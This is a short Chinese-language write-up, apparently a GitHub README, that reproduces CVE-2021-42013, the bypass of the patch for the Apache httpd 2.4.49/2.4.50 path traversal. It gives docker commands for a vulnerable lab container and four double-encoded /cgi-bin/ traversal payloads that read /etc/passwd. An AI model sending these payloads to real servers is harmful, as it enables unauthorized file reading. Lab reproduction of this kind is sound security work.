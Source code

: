 ## CVE-2021-41773

前几天Apache Http服务器爆出了任意文件读取漏洞（CVE-2021-41773），虽然漏洞影响有限，但还是掀起了安全圈的一阵热潮。
昨天夜里，出现了针对这个漏洞补丁的绕过，CVE编号CVE-2021-42013，本文对此绕过方式进行复现。

## 漏洞版本

= 2.4.49 / 2.4.50

## 漏洞简述

与CVE-2021-41773类似，此漏洞由不安全的配置触发，即，如果网站配置中，将 根目录 / 配置为

```
Require all granted
```

则可以通过cgi-bin/目录，配合 ../ 进行目录穿越，从而造成任意文件读取

P.S. 此漏洞是针对补丁的绕过，原理和CVE-2021-41773一致

## 复现

1. 启动有漏洞的 apache httpd 环境

```
docker pull vultarget/apache_httpd_readfile-cve_2021_42013:2.4.50

docker run -it -p 9999:80 --rm vultarget/apache_httpd_readfile-cve_2021_42013:2.4.50
```

2. Poc

```
/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd

/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd

/cgi-bin/.%%32e/.%%32e/.%%32e/.%%32e/etc/passwd

/cgi-bin/.%2%65/.%2%65/.%2%65/.%2%65/etc/passwd
```

